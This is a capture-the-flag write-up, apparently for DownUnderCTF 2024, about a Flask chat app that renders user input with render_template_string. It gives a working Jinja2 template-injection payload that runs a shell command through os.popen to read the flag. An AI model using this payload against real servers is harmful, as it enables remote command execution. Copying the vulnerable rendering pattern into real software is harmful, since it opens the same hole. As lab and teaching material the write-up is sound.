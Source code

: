 Link: https://web-parrot-the-emu-4c2d0c693847.2024.ductf.dev/

Source Code:
```python
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def vulnerable():
    chat_log = []

    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)

        chat_log.append(('User', user_input))
        chat_log.append(('Emu', result))
    
    return render_template('index.html', chat_log=chat_log)

if __name__ == '__main__':
    app.run(debug=True, port=80)
```
The code above present's a simple application that mimic's a chat with a stochastic parrot that simply echo's the response on both sides.

### Solution
The vulnerability in the code above lies in the line: 
```
result = render_template_string(user_input)
```

To achieve the solution, I simply asked ChatGPT to provide different possible payload's to exploit the flask SSTI.

##### Payload
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

![[Pasted image 20240705110807.png]]
###### Resources
- [Flask SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
- [Flask SSTI Cheatsheet](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
- [Unveiling the Secrets of Server-Side Template Injection](https://medium.com/@baraiprince0111/unveiling-the-secrets-of-server-side-template-injection-ssti-in-flask-and-jinja2-25c57ab3199f)
- [Exploring SSTI in Flask/Jinja2](https://www.lanmaster53.com/2016/03/exploring-ssti-flask-jinja2/)